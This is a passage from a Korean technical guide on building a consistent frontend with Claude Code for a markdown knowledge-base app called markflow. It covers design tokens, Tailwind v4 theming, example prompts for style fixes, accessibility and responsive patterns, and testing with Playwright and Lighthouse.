3. 해당 모듈을 import 하던 모든 .tsx 파일에서 className={styles.foo} → className="..." 로 치환.
4. 한 모듈 끝낼 때마다 빌드 + 시각 비교(Storybook 또는 Playwright 스냅샷) 로 회귀 확인.
5. 회귀가 없으면 그 모듈 파일 삭제 + 커밋. 다음 모듈로 진행.
6. 색상·간격은 globals.css 의 디자인 토큰(--color-*, --space-*) 으로만 사용 — 매직넘버 금지.
```

> 강조점: *전수 일괄 변환*은 검증 비용이 폭발한다. *모듈 단위로 끊어서* 빌드·시각 회귀를 매번 확인해야 안전하다.

---

### 5.4.4 커스텀 디자인 토큰

#### 어떤 방식이고 왜 적용하는가

**디자인 토큰**은 색·간격·라운드·그림자·타이포 같은 *원자적 디자인 결정*을 한 곳에 모아 변수로 만든 것이다. "주황 = `#D97706`"이 한 곳에 정의되면, 그 한 곳만 바꿔서 앱 전체의 주황을 일괄 변경할 수 있다. 토큰 없이 색상 hex를 화면 코드 곳곳에 박으면, *한 번의 디자인 변경*이 *수십 개 파일 수정*으로 번진다.

토큰은 두 단계 의미로 나누는 것이 정설이다:

1. **원시 토큰(primitive)** — 의미 없는 이름: `--orange-500: #D97706`
2. **의미 토큰(semantic)** — 의도가 담긴 이름: `--color-warning: var(--orange-500)`

화면은 의미 토큰만 참조한다. 그러면 "경고색을 주황 → 빨강"으로 바꿀 때 의미 토큰의 매핑만 바꾸면 된다.

#### 우리 프로젝트의 토큰 시스템 (실측 — `apps/web/app/globals.css`)

대표 패턴 하나만 인용 (전체는 ~30개 토큰):

```css
:root {
  --bg: #F8F7F4;
  --surface: #FFFFFF;
  --text: #1A1916;
  --accent: #1A56DB;
  --radius: 10px;
  --shadow: 0 4px 12px rgba(0,0,0,.07), 0 2px 4px rgba(0,0,0,.05);
  --font-sans: 'DM Sans', sans-serif;
  --sidebar-w: 260px;
  --header-h: 56px;
}

@theme inline {
  --color-bg: var(--bg);
  --color-text: var(--text);
  --color-accent: var(--accent);
  /* ... */
}
```

→ 이렇게 하면 컴포넌트에서 `bg-bg text-text accent-color-accent` 같은 Tailwind 유틸리티가 자동 생성되고, 모두 토큰을 참조하게 된다. 토큰 한 줄만 바꿔서 앱 전체 색조 변경 가능.

#### 토큰 분류 권장

| 그룹 | 예시 | 이름 규칙 |
|------|------|-----------|
| 색상 — 중립 | `--bg`, `--surface`, `--text`, `--border` | 의미 기반 |
| 색상 — 강조/시맨틱 | `--accent`, `--green`(success), `--red`(danger), `--amber`(warning) | 의미 기반 |
| 라운드 | `--radius-sm`, `--radius`, `--radius-lg` | 크기 등급 |
| 그림자 | `--shadow-sm`, `--shadow`, `--shadow-lg`, `--shadow-xl` | 강도 등급 |
| 타이포 | `--font-sans`, `--font-heading`, `--font-mono` | 역할 기반 |
| 레이아웃 | `--sidebar-w`, `--header-h`, `--toolbar-h` | 영역명 |

#### 프롬프트 예시

```text
디자인 토큰 시스템을 globals.css 에 정리해줘. 다음을 만족해:

1. :root 에 토큰을 그룹별로 — 색상(중립/강조/시맨틱), 라운드, 그림자, 타이포, 레이아웃.
2. @theme inline 블록에서 모든 토큰을 Tailwind v4 변수로 노출
   (예: --color-bg: var(--bg) → bg-bg 유틸리티 자동 생성).
3. 화면 코드는 hex 색상·px 매직넘버 직접 사용 금지 — 모두 토큰을 통해.
4. 다크모드: [data-theme="dark"] 에서 색상 토큰만 재정의, 라운드·그림자·타이포는 공유.
5. 토큰 이름은 의미 기반 — --orange-500 같은 원시 이름 노출 금지, --color-warning 으로.
6. 새 색이 필요할 때마다 토큰 추가 — 컴포넌트 안에 hex 박지 말 것.
7. 주요 토큰은 storybook/style-guide 페이지에 색 견본으로 표시 — 디자이너·개발자 공유용.
```

---

### 5.4 한 줄 핵심

> **"Tailwind v4는 설정 파일 없이 CSS의 `@theme inline`으로 토큰을 선언하면 그게 곧 유틸리티가 된다. 화면은 의미 토큰만 참조하고, 다크 모드는 토큰 재정의로 끝낸다 — 컴포넌트 코드를 손대지 않고 색조 전체가 바뀐다."**

---


## 5.5 디자인 시스템 구축

프론트엔드 개발에서 스타일링은 가장 많은 시간이 소요되는 작업이다. 화면을 무작정 다듬다 보면 같은 컬러가 컴포넌트마다 다르게 정의되거나, 마진/패딩 단위가 어긋나는 현상이 생긴다. 이 절에서는 디자인 시스템을 한 곳에서 관리하고, 클로드 코드가 일관된 결과물을 만들도록 가이드하는 방법을 다룬다.

### 5.5.1 디자인 시스템 일관성 유지 원칙

UI 디자인이 일관되려면 컬러·간격·타이포그래피·반경(radius)·그림자가 한 곳에서 관리되어야 한다. markflow는 다음 4단계 구조로 관리한다(권장 구조).

```
docs/
├── DESIGN_SYSTEM.md       # 사람을 위한 디자인 원칙 문서
├── tokens.json            # 단일 진실 공급원 (디자이너 편집 가능)
└── ui-components.md       # 컴포넌트별 사용 규칙
apps/web/app/
└── globals.css            # :root 또는 @theme 블록 (생성·수동 혼합)
```

> **원칙**
> 1. 임의 hex 사용 금지 — 반드시 토큰 사용 (markflow 루트 `CLAUDE.md`에도 명시)
> 2. 모든 컴포넌트 다크 모드 지원 (현재는 `prefers-color-scheme` 자동, 토글은 미도입)
> 3. 모바일 우선 반응형
> 4. 아이콘은 `lucide-react`만 사용 (실측: 이미 `lucide-react@^0.460.0` 의존성)

**컬러 토큰 정의 — colors.json (디자이너 협업이 있을 때 권장)**

디자이너가 Figma에서 추출한 컬러값이 있을 경우 JSON 형태로 관리한다. 디자이너 없이 작업하는 경우에도 참고 사이트나 이미지로부터 토큰을 추출할 수 있다. 하나의 AI 도구만 사용하면 편향된 결과가 나오기 쉬우므로 ChatGPT·Gemini·Claude를 교차 사용하면서 결과물을 검증하는 것을 권장한다.

```json
{
  "semantic": {
    "primary":  { "value": "#1A56DB", "tailwind": "blue-600" },
    "danger":   { "value": "#DC2626", "tailwind": "red-600" },
    "warning":  { "value": "#D97706", "tailwind": "amber-600" }
  },
  "background": {
    "default": { "value": "#F8F7F4" },
    "sidebar": { "value": "#FFFFFF" },
    "editor":  { "value": "#FFFFFF" },
    "preview": { "value": "#F8F7F4" },
    "code":    { "value": "#0B1020" }
  },
  "border": {
    "default": { "value": "#E2E0D8" },
    "focus":   { "value": "#1A56DB" }
  },
  "text": {
    "heading": { "value": "#1A1916" },
    "body":    { "value": "#57564F" },
    "muted":   { "value": "#6B7280" }
  }
}
```

**참고 사이트(영감/컬러 추출용)**

UI 디자인 지식이 부족할 때 다음 사이트들을 참고하면 빠르게 현대적인 디자인 감각을 익힐 수 있다.

- 컬러 팔레트: https://uicolors.app, https://www.radix-ui.com/colors
- 다크 디자인: https://www.dark.design
- 컴포넌트 큐레이션: https://collectui.com, https://uibowl.io
- 모바일/SaaS 패턴: https://mobbin.com, https://scrnshts.club
- AI 프론트엔드 도구: https://v0.app, https://lovable.dev, https://replit.com

---

### 5.5.2 디자인 시스템을 CLAUDE.md에 반영

CLAUDE.md는 핵심 지침만 두고, 상세 내용은 별도 파일을 참조한다(Level 3.2의 Progressive Disclosure 패턴). 이렇게 해야 클로드 코드가 새 컴포넌트를 만들 때 정의된 토큰을 자동으로 사용한다.

```markdown
<!-- CLAUDE.md (markflow 루트) — 디자인 시스템 섹션 발췌 -->
## 디자인 시스템

UI 작업 시 다음 문서를 반드시 먼저 읽는다.
@docs/DESIGN_SYSTEM.md
@docs/ui-components.md

핵심 규칙(요약):
- 임의 hex 색상 금지 → tokens.json 의 토큰만 사용
- 컴포넌트는 항상 다크 모드 지원
- 아이콘 라이브러리: lucide-react 만 사용
- 새 컴포넌트는 apps/web/components/ 바로 아래에 kebab-case 파일로 생성
- 마크다운 파이프라인(@markflow/editor) 수정 시 CLAUDE.md 의 마크다운 처리 규칙 준수
```

이 구조의 장점:
1. **CLAUDE.md 간결화** — 핵심 설정만 유지하고 상세 내용은 분리하여 클로드 코드가 컨텍스트를 효율적으로 파악한다.
2. **컬러 토큰 재사용** — `colors.json`은 globals.css 자동 생성, 디자이너 협업 등 여러 곳에서 활용된다.
3. **변경 용이성** — 컬러 변경 시 `colors.json`만 수정해도 일관된 변경이 가능하다.

---

### 5.5.3 `frontend-design` 공식 Skill 활용

Anthropic은 공식 플러그인 디렉터리(`anthropics/claude-plugins-official` 또는 `anthropics/claude-code/plugins/frontend-design`)에 **`frontend-design`** 스킬을 제공한다. 이 스킬은 클로드 코드가 프론트엔드 작업을 할 때 자동으로 활성화되며, "AI slop"(흔한 보라색 그라데이션·시스템 폰트·획일적 컴포넌트) 같은 흔한 패턴을 피하고 **의도를 가진 미적 방향**을 먼저 정한 뒤 구현하도록 유도한다. (출처: [anthropics/claude-plugins-official/plugins/frontend-design](https://github.com/anthropics/claude-plugins-official/tree/main/plugins/frontend-design) · [Snyk Top Claude Skills for UI/UX, 2026.03](https://snyk.io/articles/top-claude-skills-ui-ux-engineers/))

> 인용: 이 스킬은 사용자가 웹 컴포넌트·페이지·애플리케이션을 만들어달라고 할 때 사용된다. 일반적인 AI 미학을 피하면서 창의적이고 다듬어진 코드를 생성한다.

**설치**

```bash
# Claude Code 내부에서
/plugin marketplace add anthropics/claude-plugins-official
/plugin install frontend-design@anthropics/claude-plugins-official
```

**Skill의 핵심 동작**

`frontend-design` Skill은 코드를 작성하기 전에 다음 4가지 차원을 먼저 확정하도록 강제한다.

1. **Purpose** — 이 인터페이스가 해결할 문제는 무엇이고, 누가 사용하는가?
2. **Tone** — 미니멀/맥시멀, 브루털리스트, 레트로 퓨처리스트, 럭셔리 등 명확한 미적 방향
3. **Constraints** — 프레임워크, 성능, 접근성 요구사항
4. **Differentiation** — 사용자가 기억할 단 하나의 요소

또한 **Inter, Roboto, Arial, Space Grotesk 같은 흔한 폰트를 명시적으로 금지**하고, 의도적인 폰트 페어링을 요구한다.

**활용 예시**

```text
markflow 에디터의 빈 상태(Empty State) 화면을 만들어줘.
frontend-design 스킬의 가이드에 따라:

context:
- audience: 한국어 사용 개발자 / 기술 라이터
- tone: 깔끔한 에디토리얼 + 약간의 모노스페이스 디테일
  (Inter는 쓰지 마. DM Sans + JetBrains Mono 페어링)
- differentiation: "마크다운만으로 설계도가 된다" 라는 한 문장 카피
- constraint: Tailwind CSS 4 + Next.js 16 App Router

avoid: 보라색 그라데이션, 무의미한 카드 4개 그리드, "Built with AI" 배지
- 다크 모드 지원 (현재 markflow는 prefers-color-scheme 기반)
- 모바일에서도 자연스럽게 보이도록
```

[표 5-4] frontend-design Skill 사용 전후 비교 (정성적)

| 항목 | Skill 미사용 | Skill 사용 |
|------|------------|----------|
| 폰트 | Inter / system-ui 디폴트 | DM Sans + JetBrains Mono(의도적 페어) |
| 컬러 | 보라/블루 그라데이션 | 단일 도미넌트 + 샤프 액센트 |
| 레이아웃 | 카드 4개 그리드 | 비대칭/그리드 브레이킹 |
| 모션 | 없거나 일률적 hover | 페이지 로드 staggered reveal |

> **주의**: `frontend-design` Skill은 "BOLD"한 미감을 유도한다. markflow처럼 도구성이 우선인 프로젝트에는 일부러 더 보수적인 톤으로 유도하는 후속 프롬프트가 필요할 수 있다.

---

### 5.5.4 `theme-factory` 사전 정의 테마 적용

`theme-factory` 스킬은 10가지 사전 정의 테마(Ocean Depths, Sunset Boulevard, Forest Canopy, Modern Minimalist, Golden Hour, Arctic Frost, Desert Rose, Tech Innovation, Botanical Garden, Midnight Galaxy)를 제공한다. 슬라이드·문서·랜딩 페이지 등 아티팩트의 색·폰트를 일관되게 입힐 때 유용하다.

> 출처: [Anthropic Skills — theme-factory](https://github.com/anthropics/skills/tree/main/skills/theme-factory) (스킬 설명 SKILL.md)

**활용 예시 — markflow 마케팅 랜딩 페이지**

```text
theme-factory 스킬을 사용해서 markflow 의 마케팅 랜딩 페이지(/landing) 의
색·폰트를 'Tech Innovation' 테마에 맞춰 갱신해줘.
- 기존 컴포넌트 구조는 유지 (apps/web/components/landing/*)
- markflow 의 brand 컬러는 Tech Innovation 의 primary 와 매핑
- 다크 모드 변형도 함께 정의
- 변경 전후 스크린샷 비교를 위한 /landing-preview 라우트는 그대로 둬
```

> **주의**: theme-factory 스킬은 슬라이드/마케팅 자료용 색감에 강점이 있다. 운영 중인 SaaS 본 화면에 그대로 적용하면 톤이 너무 강해질 수 있으므로, 특정 화면(랜딩·온보딩·마케팅)에 한정해서 쓰는 편이 안전하다.

---

### 5.5.5 스타일 수정 요청 패턴

가장 많은 토큰을 쓰는 단계가 마지막 스타일 수정 단계다. 클로드 코드에 **명확한 지침과 예시**를 함께 제공하지 않으면 동일한 문제가 반복된다. **"증상 → 원하는 결과 → 제약 조건"** 3단 구조가 가장 안정적이다.

**나쁜 요청 vs 좋은 요청**

```text
❌ 나쁜 요청
"사이드바가 너무 답답해. 좀 깔끔하게 해줘."

✅ 좋은 요청
@apps/web/components/sidebar.tsx 의 카테고리 트리에서:
1. 노드 간 세로 간격을 8px → 6px 로 줄여줘
2. depth 별 들여쓰기는 16px 로 통일 (현재 12/16/20 혼재)
3. 선택된 노드는 좌측 2px brand-500 컬러 인디케이터 추가
4. hover 상태는 bg-muted/50 으로
다른 컴포넌트 수정 금지. globals.css 토큰은 변경 금지.
```

**예 1: 스크롤 동작 수정 — 3단 구조**

```text
[증상] CategoryTree에서 항목이 많아지면 사이드바 전체가 스크롤되는데,
헤더(워크스페이스 스위처)는 고정되어야 해.

[원하는 결과]
- 사이드바 헤더는 sticky top:0
- 트리 영역만 overflow-y: auto

[제약]
- 모바일에서도 동일 동작
- height 계산은 dvh 단위 사용 (iOS Safari 주소창 이슈 회피)
```

**예 2: 레이아웃 조정**

```text
[증상] EditorPane과 PreviewPane 사이의 분할선이 단순한 border라 끌어서 크기 조절이 안 돼.

[원하는 결과]
- 분할선을 8px 폭의 드래그 가능한 핸들로 만들어
- 좌측 최소 320px, 우측 최소 320px 보장
- 더블클릭하면 50:50으로 리셋

[제약]
- 추가 라이브러리 도입 금지 — pure React + CSS Grid로
- 에디터 비율은 Zustand store에 저장 (sessionStorage 동기화는 하지 마, 일부 환경에서 비가용)
```

**예 3: 반응형 디자인**

```text
@apps/web/components/document-meta-panel.tsx 에 반응형 적용:
- < 640px: 단일 컬럼, 카드 형태(제목·요약 2줄·메타)
- 640~1024px: 2컬럼 그리드
- ≥ 1024px: 표 형태 (현재 디자인 유지)
- 컨테이너 쿼리(@container) 사용
```

> 개발을 진행하다 보면 가장 많은 토큰을 쓰면서 오랜 시간을 잡아먹는 게 마지막 수정 단계다. 같은 실수가 반복된다면 CLAUDE.md의 "Lessons Learned" 섹션에 추가한다.

---

## 5.6 프로덕션급 UI 패턴

데모 수준의 UI와 프로덕션 UI 사이에는 큰 격차가 있다. 접근성, 모바일, 다국어, 성능을 모두 통과해야 비로소 사용자가 안심하고 쓸 수 있는 제품이 된다.

### 5.6.1 접근성(a11y) 자동 검증 — ARIA · 키보드 네비게이션

markflow는 KMS이므로 키보드만으로 모든 작업이 가능해야 한다. 다음 4가지를 자동 검증한다.

1. **시맨틱 마크업** — `nav`, `main`, `aside`, `article`, `section`을 의미에 맞게
2. **ARIA 역할/속성** — `role="tree"`, `aria-expanded`, `aria-selected`
3. **포커스 트랩** — 모달이 열린 동안 Tab이 바깥으로 빠지지 않도록
4. **키보드 네비게이션** — 사이드바 ↑↓, 명령 팔레트 ↑↓ + Enter, 트리 ←→로 펼침/접힘

**markflow a11y 기준**

- **키보드만으로 전체 기능 사용 가능** — 마우스 없이 워크스페이스/문서 전환 + 편집 + 저장
- **명시적 ARIA 라벨** — `aria-label`, `aria-describedby`, `role`이 시맨틱 태그를 보강
- **포커스 트랩** — 모달은 열렸을 때 포커스가 모달 내부에서만 순환
- **대비** — WCAG AA(4.5:1 텍스트, 3:1 UI 컴포넌트) 통과
- **스크린리더** — VoiceOver/NVDA에서 트리/명령 팔레트 사용 가능

**vitest-axe로 자동 검증** *(권장 패턴 — 현재 미설치)*

> 🔧 **[코드베이스 교정]** — `vitest-axe`는 markflow의 의존성에 포함되어 있지 않다. 접근성 자동 검증을 도입할 경우 `pnpm --filter @markflow/web add -D vitest-axe @axe-core/playwright`로 설치한 뒤 아래 패턴을 사용한다. 또 실제 트리 컴포넌트 경로는 `apps/web/components/category-tree.tsx`이고 테스트는 `apps/web/components/__tests__/`에 둔다.

```typescript
// apps/web/components/__tests__/category-tree.test.tsx (권장 위치)
import { render } from '@testing-library/react';
import { axe } from 'vitest-axe';
import 'vitest-axe/extend-expect';
import { CategoryTree } from '../category-tree';

it('CategoryTree 가 접근성 위반이 없어야 한다', async () => {
  const { container } = render(<CategoryTree nodes={mockCategories} onSelect={() => {}} />);
  expect(await axe(container)).toHaveNoViolations();
});
```

**Playwright로 키보드 시나리오 테스트**

```typescript
// apps/web/tests/e2e/keyboard.spec.ts
import { test, expect } from '@playwright/test';

test('Cmd+K 로 명령 팔레트가 열리고 ESC 로 닫힌다', async ({ page }) => {
  await page.goto('/workspaces/demo');
  await page.keyboard.press('Meta+K');
  await expect(page.getByRole('dialog', { name: 'Command Palette' })).toBeVisible();
  await page.keyboard.press('Escape');
  await expect(page.getByRole('dialog', { name: 'Command Palette' })).toBeHidden();
});
```

> 출처: [vitest-axe](https://github.com/chaance/vitest-axe), [WCAG 2.2](https://www.w3.org/TR/WCAG22/)

---

### 5.6.2 모바일 우선 반응형 설계

markflow는 데스크톱 도구 성격이 강하지만, 태블릿에서의 읽기·간단한 편집은 자주 일어난다. 모바일 폰에서는 "읽기 + 메모 추가" 정도로 기능 범위를 좁혀서 설계한다.

[표 5-7] markflow의 디바이스별 기능 범위

| 디바이스 | 지원 기능 |
|---------|----------|
| 모바일(< 768px) | 문서 읽기, 짧은 메모 추가, 카테고리 이동, 검색 |
| 태블릿(768~1023px) | 위 기능 + 단일 칼럼 편집, 자동 저장 |
| 데스크톱(≥ 1024px) | 모든 기능, 3분할, 단축키, 명령 팔레트 |

[표 5-8] 브레이크포인트 매트릭스

| 브레이크포인트 | 너비 | markflow UX |
|--------------|------|-------------|
| `sm` | ≥ 640px | 사이드바 토글, 단일 컬럼 |
| `md` | ≥ 768px | 사이드바 280px + 메인 |
| `lg` | ≥ 1024px | 사이드바 + 에디터 + 미리보기 (3분할) |
| `xl` | ≥ 1280px | 동일, 컨텐츠 max-width 1200 |
| `2xl` | ≥ 1536px | 동일, 사이드바 320px |

**터치 친화적 인터랙션**

- 탭 타깃 최소 44×44 CSS 픽셀(WCAG 2.5.5 — Target Size, AAA 기준 보수적 적용)
- 드래그앤드롭은 모바일에서 long-press 후 활성화
- 사이드바는 좌측 가장자리 스와이프로 열기

**컨테이너 쿼리로 컴포넌트 단위 반응형**

Tailwind v4의 컨테이너 쿼리를 활용하면 컴포넌트가 **자기 컨테이너 크기**에 따라 적응할 수 있어 진정한 컴포저블 UI가 된다.

```tsx
<article className="@container">
  <div className="flex flex-col @md:flex-row gap-4">
    <Thumbnail />
    <Body />
  </div>
</article>
```

```text
모바일(< 768px)에서 markflow를 사용 가능한 형태로 만들어줘.

변경 범위:
- 워크스페이스 layout: 사이드바를 드로어로 전환, Hamburger 버튼 추가
- EditorPane/PreviewPane: 탭 컴포넌트로 전환, Cmd+/는 탭 토글로 매핑
- 문서 컨텍스트 메뉴(doc-context-menu.tsx): 더보기 버튼 크기 44x44 보장
- CategoryTree: 들여쓰기 단위를 16px → 12px로 줄여 가독성 향상

검증:
- iPhone 14 (390x844) 에뮬레이션에서 모든 기능 동작
- iPad (820x1180) 에뮬레이션에서 사이드바 + 단일 에디터 정상 표시
```

---

### 5.6.3 다국어(i18n) 처리 *(현재 markflow 미적용)*

> 🔧 **[코드베이스 교정]** — 현재 markflow는 **i18n을 도입하지 않았다**(`next-intl`/`react-intl` 미설치, `messages/*.json`/`middleware.ts` 미존재). UI는 한국어 단일이며 일부 영문 라벨이 혼용된다. 아래는 *향후 한국어/영어 멀티 로케일 도입 시 권장 패턴*이다.

markflow가 한국어/영어 2개 언어를 지원하게 된다면, Next.js App Router에서는 **`next-intl`**이 가장 안정적인 선택이다(Pages Router 시절의 `next-i18next` 대체).

**디렉터리 구조**

```
apps/web/
├── messages/
│   ├── ko.json
│   └── en.json
├── i18n.ts
├── middleware.ts
└── app/
    └── [locale]/        # 로케일별 라우트
        └── ...
```

```typescript
// apps/web/i18n.ts
import { getRequestConfig } from 'next-intl/server';
export default getRequestConfig(async ({ locale }) => ({
  messages: (await import(`./messages/${locale}.json`)).default,
}));
```

```json
// messages/ko.json
{
  "common": { "save": "저장", "cancel": "취소" },
  "editor": {
    "placeholder": "마크다운으로 작성하세요...",
    "saving": "저장 중...",
    "saved": "저장됨"
  },
  "errors": {
    "VERSION_CONFLICT": "다른 세션에서 변경되었습니다. 새로고침 후 다시 시도해 주세요."
  }
}
```

```tsx
import { useTranslations } from 'next-intl';

export function SaveButton() {
  const t = useTranslations('editor');
  return <button>{t('save')}</button>; // ko: 저장 / en: Save
}

// 백엔드 에러 매퍼와 통합
const tErr = useTranslations('errors');
toast.error(tErr(error.code));
```

> **Tip**: 마크다운 콘텐츠 자체의 다국어(원문/번역 동시 보관)는 더 큰 주제이며 별도 데이터 모델이 필요하다. markflow MVP에서는 UI 다국어만 지원한다.

---

### 5.6.4 성능 최적화 (코드 분할 · 가상 스크롤 · 번들 분석)

**1. 코드 분할(Dynamic Import)**

CodeMirror, Mermaid(도입 시), KaTeX는 번들 사이즈가 큰 후보다. 미리보기에서만 필요하므로 동적 import로 분리한다.

```tsx
'use client';
import dynamic from 'next/dynamic';

const Preview = dynamic(() => import('./markdown-preview'), {
  ssr: false,
  loading: () => <PreviewSkeleton />,
});
```

**2. 가상 스크롤(Virtualization)** *(권장 — 현재 미설치)*

문서가 1000개 이상 쌓이는 사이드바 또는 검색 결과는 가상 스크롤로 처리한다. **`@tanstack/react-virtual`** 이 표준 선택지다.

> 🔧 **[코드베이스 교정]** — `@tanstack/react-virtual`은 markflow의 의존성에 포함되어 있지 않다. 베타 사용자 10팀 규모에서는 일반 스크롤로 충분하지만, 단일 카테고리에 문서가 1k+ 누적되기 시작하면 도입을 검토한다.

```bash
pnpm --filter @markflow/web add @tanstack/react-virtual
```

```typescript
import { useVirtualizer } from '@tanstack/react-virtual';

const rowVirtualizer = useVirtualizer({
  count: documents.length,
  getScrollElement: () => parentRef.current,
  estimateSize: () => 48,
  overscan: 8,
});
```

**3. 번들 분석**

```bash
# Next.js 16의 번들 분석기
pnpm --filter @markflow/web add -D @next/bundle-analyzer
```

```javascript
// apps/web/next.config.ts (개념)
import withBundleAnalyzer from '@next/bundle-analyzer';

const bundleAnalyzer = withBundleAnalyzer({ enabled: process.env.ANALYZE === 'true' });
export default bundleAnalyzer({ /* ...config */ });
```

```bash
ANALYZE=true pnpm --filter @markflow/web build
```

번들의 큰 chunk를 식별한 뒤 클로드 코드에 위임한다.

```text
.next/analyze/client.html 의 결과를 봤을 때
@apps/web/components/preview/markdown-preview.tsx 가 메인 번들에 포함되어 있다.
이 컴포넌트와 무거운 라이브러리를 별도 chunk 로 분리해줘.
조건:
- next/dynamic 사용, ssr: false
- 미리보기에서만 사용되므로 메인 번들에 영향이 없어야 함
- 변경 후 빌드해서 chunk 크기 비교 결과 보여줘
```

[표 5-9] markflow 성능 목표(가이드)

| 지표 | 목표 |
|------|------|
| 초기 JS 번들(gzip) | < 250KB |
| LCP(Largest Contentful Paint) | < 2.5s |
| INP(Interaction to Next Paint) | < 200ms |
| CLS(Cumulative Layout Shift) | < 0.1 |
| 에디터 초기 렌더 | < 1s |

> 출처: [Web Vitals](https://web.dev/vitals/)

---

## 5.7 프론트엔드 검증과 마무리

모든 구현이 끝났다면, 종합 검증으로 마무리한다. 검증은 세 축으로 진행한다.

1. **컴포넌트/훅 단위** — Vitest
2. **브라우저 시각/행동** — Playwright (실측: `apps/web/playwright.config.ts` 존재)
3. **성능/접근성** — Lighthouse (현재 미설치, 도입 권장)

### 5.7.1 컴포넌트 테스트 실행

```bash
# 단위·컴포넌트 테스트 (Vitest + jsdom)
pnpm --filter @markflow/web test

# 변경된 파일만 빠르게
pnpm --filter @markflow/web test --changed

# 커버리지 (필요 시 v8 provider 추가)
pnpm --filter @markflow/web test --coverage
```

[그림 5-4] 테스트 통과 결과 — Test Files / Tests / Duration / Coverage 요약 [스크린샷 영역]

테스트가 실패하면 **반드시 통과 상태로 만든 뒤** 다음 단계로 넘어간다. "임시로 skip" 같은 선택은 시간이 지나면 회복할 수 없게 누적된다. 회귀(regression)는 LEVEL 4의 `4.6.3 회귀 방지하기`에서 다룬 패턴을 그대로 적용한다.

---

### 5.7.2 브라우저 시각적 QA — Playwright 자동화

LEVEL 4에서 Playwright E2E 환경은 이미 구성되어 있다. 프론트엔드 작업이 끝나면 다음 시나리오들이 통과해야 한다.

**Playwright 설치·초기 설정 (실측 — 이미 markflow에 설치됨)**

```bash
pnpm --filter @markflow/web add -D @playwright/test
pnpm --filter @markflow/web exec playwright install
```

```typescript
// apps/web/playwright.config.ts (실제 markflow 파일)
import { defineConfig, devices } from '@playwright/test';

export default defineConfig({
  testDir: './tests/e2e',
  fullyParallel: true,
  forbidOnly: !!process.env.CI,
  retries: process.env.CI ? 2 : 0,
  workers: process.env.CI ? 1 : undefined,
  reporter: 'html',
  timeout: 30_000,
  use: {
    baseURL: process.env.E2E_BASE_URL ?? 'http://localhost:3002',
    trace: 'on-first-retry',
    screenshot: 'only-on-failure',
  },
  projects: [
    { name: 'chromium', use: { ...devices['Desktop Chrome'] } },
  ],
  webServer: process.env.CI
    ? undefined
    : {
        command: 'pnpm dev',
        port: 3002,
        reuseExistingServer: true,
      },
});
```

> 🔧 **[코드베이스 교정]** — 실제 `playwright.config.ts`는 **chromium 단일 프로젝트**로 구성되어 있고, mobile-safari 디바이스 매트릭스는 등록되어 있지 않다. 또 CI 환경에서는 `webServer`를 띄우지 않고 외부 URL(`E2E_BASE_URL`)에 붙는 패턴을 쓴다. iPhone/Android 디바이스 시나리오를 추가할 때는 `projects` 배열을 확장한다.

**핵심 E2E 시나리오**

| ID | 시나리오 |
|----|---------|
| E2E-FE-001 | 로그인 → 워크스페이스 진입 → 첫 문서 자동 표시 |
| E2E-FE-002 | "새 문서" → 제목 입력 → 자동 저장 인디케이터 확인 |
| E2E-FE-003 | 마크다운 편집 → 미리보기에 반영 → 코드 블록 하이라이팅 |
| E2E-FE-004 | Cmd+K → 검색 모달 → 문서 이동 |
| E2E-FE-005 | 카테고리 트리 펼침 → 문서 드래그 이동 → 확인 |
| E2E-FE-006 | 모바일 뷰포트(390x844) → 사이드바 드로어 동작 |
| E2E-FE-007 | KaTeX 수식이 미리보기에 렌더링된다 |
| E2E-FE-008 | 충돌 시 모달이 표시되고 사용자가 선택할 수 있다 |

```typescript
// apps/web/tests/e2e/document-flow.spec.ts (예시)
import { test, expect } from '@playwright/test';

test.describe('문서 작성 흐름', () => {
  test('새 문서 생성 → 입력 → 자동 저장 → 새로고침 시 보존', async ({ page }) => {
    await page.goto('/workspaces/demo');
    await page.getByRole('button', { name: '새 문서' }).click();
    await page.getByPlaceholder('제목').fill('테스트 문서');
    await page.locator('.cm-content').fill('# Hello\n\nmarkflow!');
    // 자동 저장 (2s 디바운스 권장)
    await page.waitForTimeout(2500);
    await page.reload();
    await expect(page.locator('.cm-content')).toContainText('Hello');
  });
});
```

**시각적 회귀 테스트(선택)**

Playwright는 스크린샷 기반 시각 회귀도 지원한다.

```typescript
test('메인 화면 시각 회귀', async ({ page }) => {
  await page.goto('/workspaces/demo');
  await expect(page).toHaveScreenshot('main.png', { fullPage: true });
});
```

첫 실행 시 기준 이미지가 저장되고, 이후 실행마다 비교한다. 의도된 변경이라면 `--update-snapshots`로 갱신한다.

```bash
# 전체 E2E 실행 (실측 스크립트: package.json의 test:e2e)
pnpm --filter @markflow/web test:e2e

# UI 모드(디버깅용)
pnpm --filter @markflow/web exec playwright test --ui
```

> **참고**: Vitest 3+의 Browser Mode와 Playwright Component Testing은 jsdom 환경의 한계(드래그앤드롭, 실제 브라우저 동작)를 보완한다. jsdom에서 통과한 테스트가 실제 브라우저에서 깨지는 케이스가 의외로 많으니 핵심 시나리오는 반드시 실제 브라우저 기반으로 한 번 더 검증한다. (출처: [PkgPulse](https://www.pkgpulse.com/blog/vitest-jest-playwright-complete-testing-stack-2026))

---

### 5.7.3 Lighthouse 성능 점수 측정 *(권장 — 현재 미설치)*

> 🔧 **[코드베이스 교정]** — `@lhci/cli`는 markflow 의존성에 포함되어 있지 않다. 아래 명령은 도입 시 사용한다.

```bash
# 일회성 측정
pnpm dlx lighthouse http://localhost:3002 --view

# CI 통합
pnpm --filter @markflow/web add -D @lhci/cli

# 로컬 실행
pnpm --filter @markflow/web exec lhci autorun --collect.url=http://localhost:3002
```

`lighthouserc.json` 예시:

```json
{
  "ci": {
    "collect": {
      "url": ["http://localhost:3002/", "http://localhost:3002/workspaces/demo"],
      "numberOfRuns": 3
    },
    "assert": {
      "assertions": {
        "categories:performance": ["error", { "minScore": 0.9 }],
        "categories:accessibility": ["error", { "minScore": 0.95 }],
        "categories:best-practices": ["warn", { "minScore": 0.9 }],
        "categories:seo": ["warn", { "minScore": 0.9 }]
      }
    }
  }
}
```

**markflow 목표치(데스크톱)**

| 카테고리 | 목표 |
|----------|------|
| Performance | ≥ 90 |
| Accessibility | ≥ 95 |
| Best Practices | ≥ 95 |
| SEO | ≥ 90 |

| Core Web Vital | 목표 |
|----------------|------|
| LCP | ≤ 2.5s |
| INP | ≤ 200ms |
| CLS | ≤ 0.1 |

목표 미달 시 다음 순서로 클로드 코드에 위임한다.

```text
@apps/web/.lighthouseci/lhr-*.json 의 가장 낮은 점수 카테고리를 분석해서
최우선 개선 5가지를 항목별로 제시해줘. 각 항목에 대해:
1. 원인(파일·라인)
2. 영향도
3. 구체적 수정 방안(코드 패치 형태)
